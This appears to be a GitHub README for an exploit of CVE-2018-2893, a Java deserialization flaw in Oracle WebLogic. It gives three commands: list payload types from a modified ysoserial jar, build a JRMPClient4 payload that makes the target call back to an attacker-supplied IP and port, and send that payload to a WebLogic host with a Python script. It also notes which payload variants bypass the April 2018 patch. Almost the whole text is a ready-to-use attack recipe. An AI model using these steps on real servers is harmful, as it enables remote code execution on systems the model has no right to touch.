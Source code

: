 # CVE-2018-2893

## Step 1

`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-2893.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 @mbechler
     JRMPClient3 @mbechler
     JRMPClient4 @mbechler
     Jdk7u21     @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4  "[IP]:[PORT]"  >  poc4.ser`

## Step 3

`python weblogic.py [HOST] [PORT] poc4.ser`


### Note: Any one of  JRMPClient2|JRMPClient3|JRMPClient4 can be utilized to  bypass the Critical Patch Update April 2018.
